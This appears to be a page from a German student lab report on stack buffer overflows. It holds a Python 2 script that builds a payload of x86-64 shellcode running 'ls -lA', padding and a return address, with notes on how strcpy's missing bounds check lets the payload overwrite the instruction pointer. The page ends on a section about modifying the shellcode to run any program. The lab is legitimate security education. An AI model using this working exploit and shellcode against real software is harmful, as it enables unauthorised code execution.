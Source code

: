 \documentclass[12pt]{article}
\begin{document}
\newpage
\begin{lstlisting}
#! /usr/bin/python2
# -*- coding: utf-8 -*-
import sys

if len(sys.argv)==2:
	address = sys.argv[1].decode("hex")
	address = address[::-1]

else:
	print "Rücksprungadresse übergeben!"
	sys.exit(1)

shellcode="\x48\x31\xc9\x51\x48\xb9\xff\x2f\x62\x69\x6e\x2f\x73" \
        + "\x68\x48\xc1\xe9\x08\x51\x54\x5f\x48\x31\xc9\x51\x66" \
        + "\x68\x2d\x63\x54\x5b\x48\x31\xc9\x51\xeb\x14\x5a\x52" \
        + "\x80\x72\x05\x41\x53\x57\x54\x5e\x48\x31\xd2\x48\x31" \
        + "\xc0\xb0\x3b\x0f\x05\xe8\xe7\xff\xff\xff\x6c\x73\x20" \
        + "\x2d\x6c\x41"
print("\x90" + shellcode + "A" * 195 + address)
\end{lstlisting}

Um die Rücksprungadresse herauszufinden, übergeben wir an unser Skript zunächst eine beliebige Adresse im hex-Format:

\begin{figure}[htbp]
    \centering
    \texttt{[image: Praktikum 3/Bilder/overflow/overflow1.png]}
\end{figure}

Die richtige Rücksprungadresse (Anfang von Buffer) ist grün markiert. Damit rufen wir das Skript erneut auf und erzeugen so den gewünschten Buffer Overflow:

\begin{figure}[htbp]
    \centering
    \texttt{[image: Praktikum 3/Bilder/overflow/overflow2.png]}
\end{figure}
Zusammenfassung: \newline
\newline
Durch das Padding füllen wir den Buffer komplett mit "A"'s. Da der strcpy Befehl die Größe des übergebenen Strings nicht prüft, werden nun unerlaubte Bereiche des Stacks überschrieben. Explizit wird der Instruction Pointer und der return Bereich des Stacks überschrieben. Anstatt nun ein "return 0" auszuführen, wird der Befehl "ls -lA" ausgeführt. \newline
\newpage

\section{Teil 2: Ausbau des Shellcodes}
\subsection{Teil A - Neues Python Skript}
Um ein beliebiges Linux Programm ausführen zu können, müssen die markierten Werte des bestehenden Shellcodes verändert werden:
\end{document}
